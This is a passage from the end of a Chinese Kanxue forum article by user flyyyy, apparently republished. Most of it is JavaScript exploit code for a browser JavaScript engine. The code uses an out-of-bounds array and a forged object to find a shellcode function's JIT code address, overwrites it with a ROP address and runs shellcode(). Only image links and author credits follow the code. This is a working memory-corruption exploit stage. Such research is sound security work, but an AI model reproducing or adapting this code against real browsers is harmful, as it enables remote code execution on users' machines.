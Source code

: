 ```
}

// p(shellcode);

var shellcode_addr = addressOf(shellcode);


oob_array[(fake_object_addr - confused_element_addr)/8 + 1] = lh_u32_to_f64(shellcode_addr - 8 + 0x18,0x1000);

var code_addr = u64_to_u32_lo(f64_to_u64(fake_object[0]));

oob_array[(fake_object_addr - confused_element_addr)/8 + 1] = lh_u32_to_f64(code_addr - 8 + 0x10,0x1000);
var ins_base = (f64_to_u64(fake_object[0]));

var rop_addr = ins_base + 0x56n;
fake_object[0] = u64_to_f64(rop_addr);

logg(&#34;shellcode_addr&#34;, shellcode_addr);
logg(&#34;code_addr&#34;, code_addr);
logg(&#34;ins_base&#34;, ins_base);
logg(&#34;rop_addr&#34;, rop_addr);

// stop();
shellcode();
// spin();


```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HpNY8Y8SDFbRWkQbTlo6n703ts6IibBxGbZcVfhLIIfSbZQAJLhSECibWXGYzSjofCZ5yGgTdtSmjw/640?wx_fmt=png&from=appmsg "")  
![]( "")  
# 参考文章见『阅读原文』  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HpNY8Y8SDFbRWkQbTlo6n7ZmqibnedCItcY6xwAIAQ2KHEdEtITux5ibtpgFViaVhiacZ1FlNtSKdP6A/640?wx_fmt=png&from=appmsg "")  
  
  
看雪ID：  
flyyyy  
  
https://bbs.kanxue.com/user-home-971428.htm  
  
*本文为看雪论坛精华文章，由   
flyyyy  
   
原创，转载请注明来自看雪社区  
  